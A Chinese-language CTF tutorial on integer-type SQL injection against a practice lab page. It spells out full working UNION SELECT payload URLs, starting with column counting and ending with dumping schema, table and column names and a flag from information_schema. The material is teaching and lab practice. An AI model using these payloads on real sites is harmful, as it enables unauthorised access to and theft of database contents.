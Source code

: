 
#第二节：sql注入之sql注入整型报错注入

##2.0：免责声明

该课程中涉及的技术只适合于CTF比赛和有合法授权的渗透测试。请勿用于其他非法用途，如果作于其他非法用途，与本文作者无关。

##2.1：上节课程答疑

###2.1.1：sql注入的最终目的是什么？

sql注入的最终目的就是将非法sql语句带入数据库中进行查询，以此来获取数据库中的数据，有些时候也可以通过sql注入获取系统的权限。

###2.1.2：我们如何才能实现这个最终目的

简单的来说，这个问题可以解释为sql注入的流程是什么。一次简单的sql注入的流程大致如下：

>1.判断注入点

>2.判断注入类型

>3.获取表名、列明、字段名

>4.查寻

##2.2:什么是整型注入

sql注入从分类上讲大概可以分为整形注入和字符型注入。

在网站正常的功能设计中，一般通过传入参数的不同来返回不同的内容。如ID、年龄等。如果输入的参数为整形，且存在sql注入。则可以被认为存在sql注入。如果传入的参数为字符，且存在sql注入，则可以认为存在字符型注入。正常情况下，字符型注入需要先进行闭合然后在进行注入。

> 整型注入后台sql语句为 : select * from  table where id =8 

>字符型注入的后台sql语句为：select * from tables where username="admin"

##2.3:整型注入练习环境

>http://39.98.88.18:8080/sql/Less-2/index.php?id=1

##2.4:sql注入实战

1.判断注入点

在id=1的后面添加一个单引号，然后报出错误。说明此处存在注入。

![](img/2.3/1.png)

加单引号的目的是为了引发报错，从而证明此处存在注入。报错信息说明此处有语法错误.

2.报错语句分析

>You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' LIMIT 0,1' at line 1

我们刚刚在id=1后面添加了一个单引号，此时在后台执行的sql语句为：

>select * from table where id=1'

报错语句中一共有三个引号，其中最左侧，和最右侧的两个引号是语句中为了标明错误的。与后台执行的语句中。剩下的那个引号是我们刚刚自己的添加的。此时，便可以判断这个漏洞为整型sql注入。

3.union联合注入。

整型注入的手工注入一般采用union 联合注入，union的作用是将两个sql语句进行联合。使用时需要注意一下几点：

- union前后的两个sql语句选择的列数必须相同才可以。同时列也必须有相似的数据类型。

- 当两个sql语句进行联合操作时，当前一个语句选择的内容为空，这时候才可以讲后面的语句执行后的结果显示出来。

4.判断列数。

因union联合查询要求前后列数一致，故先判断列数。

>url ： http://39.98.88.18:8080/sql/Less-2/index.php?id=1 order  by 3--+

order by的意思是对数据进行排序，当order by为4时，报错。故此时列数为3列。

![](img/2.3/2.png)

--+表示注释，注释掉后方无用的内容。在注入时，注释必不可少。

5.判断回显位置

在这个网页上，显示数据库查询结果的只有两行。但是union语句要求前后列数一致。我们此时我们要进行判断那一列上的查询会将结果显示出来。

>url : http://39.98.88.18:8080/sql/Less-2/index.php?id=-1%20union%20select%201,2,3%20--+

![](img/2.3/3.png)

6.查寻数据库版本

由上可知，在2,3处会将查询的结果给显示出来，所以构造语句：

>url:http://39.98.88.18:8080/sql/Less-2/index.php?id=-1%20union%20select%201,2,3%20--+

![](img/2.3/4.png)

得出版本为5.5.59.大于5.故存在information_schema.

7.查询数据库名

>url : http://39.98.88.18:8080/sql/Less-2/index.php?id=-1%20union%20select%201,group_concat(schema_name),3%20from%20information_schema.schemata--+

![](img/2.3/5.png)

group_concat: group_concat函数是典型的字符串连接函数,讲查询结果以逗号分隔。连接在一起。

8.查询表名

发现有flag这个数据，查询列名的url如下：

>url :  http://39.98.88.18:8080/sql/Less-2/index.php?id=-1%20union%20select%201,group_concat(table_name),3%20from%20information_schema.tables%20where%20table_schema=%27security%27--+

![](img/2.3/6.png)

9.查询列名

>url : http://39.98.88.18:8080/sql/Less-2/index.php?id=-1%20union%20select%201,group_concat(column_name),3%20from%20information_schema.columns%20where%20table_name=%27flag%27--+

![](img/2.3/7.png)

10.查询数据

>url : http://39.98.88.18:8080/sql/Less-2/index.php?id=-1%20union%20select%201,2,flag%20from%20flag%20--+

![](img/2.3/8.png )

123456789即为我们所需数据。到此一次sql手工注入完成。

##2.5课后习题

课后习题地址：http://39.98.88.18/challenges#%E6%95%B4%E5%9E%8B%E6%B3%A8%E5%85%A5

##2.6 小结

CTF（web和内网渗透系列教程）的清单请在“https://github.com/xuanhun/HackingResource” 查看，定时更新最新章节链接

答疑、辅导请加入玄魂工作室--安全圈，一起成长探讨更私密内容。微信扫码了解详情：

![](img/2.3/00.jpeg)

及时获取更多消息，请关注微信订阅号

![](img/2.3/0.jpg)

